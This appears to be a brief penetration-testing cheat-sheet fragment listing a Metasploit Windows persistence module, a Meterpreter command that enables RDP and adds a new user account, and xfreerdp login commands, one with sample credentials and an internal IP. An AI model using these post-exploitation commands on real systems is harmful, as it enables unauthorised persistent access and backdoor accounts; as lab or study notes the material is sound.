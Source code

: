 metasploit module:
```
windows/local/persistence_service
```

rdp through meterpreter
```
run getgui -e -u <new user> -p <new pass>
xfreerdp /u:alice /p:hack_123321 /v:10.0.23.139
xfreerdp /v:<RHOST> /u:<USERNAME> /p:<PASSWORD> /dynamic-resolution +clipboard
```